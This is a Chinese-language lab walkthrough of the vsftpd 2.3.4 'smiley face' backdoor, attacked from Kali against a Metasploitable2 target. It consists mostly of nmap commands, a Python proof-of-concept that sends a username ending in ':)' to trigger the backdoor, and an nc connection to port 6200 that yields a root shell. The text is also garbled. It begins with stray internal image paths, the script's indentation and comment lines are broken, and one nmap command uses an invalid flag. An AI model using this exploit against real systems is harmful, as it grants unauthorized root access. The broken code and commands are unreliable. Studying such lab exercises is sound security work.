



# 什么是笑脸漏洞

笑脸漏洞出现在被恶意篡改投毒的vsftpd 2.3.4版本中，并非官方原版程序自带缺陷；当攻击者连接靶机21端口的FTP服务，提交末尾带有英文 :) 的用户名时，内置后门就会被触发，靶机自动开启6200端口，攻击者通过该端口连接，无需账号密码即可直接拿到root权限的命令行shell。

实验准备

1.攻击机：Kali Linux虚拟机，自带Python3环境

2.靶机：Metasploitable2虚拟机，预装带后门的vsftpd 2.3.4

3.网络：两台虚拟机网卡为NAT或仅主机模式，网络互通

4.工具：Python3（运行POC脚本）、nmap（预先探测靶机IP与21端口开放状态）、nc（触发后门后连接6200端口获取shell）

## 实验过程

打开靶机，并获取靶机的ip地址



使用nmap扫描靶机，可以看到靶机的21端口是开放的。但列表里并没有6200端口，说明该端口还没有打开

```
nmap  -Pn 192.168.200.132
```



查验21端口对应的ftp服务的版本为2.3.4，存在笑脸漏洞

```
nmap -21 -sV 192.168.200.132 21
```



编写并运行Python POC脚本，发送带 ：) 的用户名触发后门

```
import socket
import time

def vsftpd_backdoor_poc(target_ip, port=21):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        sock.connect((target_ip, port))

        # 接收ftp欢迎banner

         banner = sock.recv(1024).decode()
         print("[+] FTP Banner: ", banner)

发送带笑脸的用户名，英文 :)

     sock.send(b"USER test:)\r\n")
     time.sleep(0.3)
     sock.send(b"PASS 123456\r\n")
     time.sleep(0.3)
     print("[+] 已经发送USER test:)，尝试触发后门6200端口")
     sock.close()
     print("[*] 等待后门启动 2秒...")
     time.sleep(2)
     print("[*] 现在你可以新开终端执行 nc {} 6200 获取root shell".format(target_ip))

except Exception as e:
    print("[-] 出错：", e)

if __name__ == "__main__":

     ip = "192.168.200.132"
     vsftpd_backdoor_poc(ip)
```

执行完脚本后，新开一个kali终端用nc连接靶机的 6200端口，可以看到成功获取了root权限shell

nc 192.168.200.132 6200


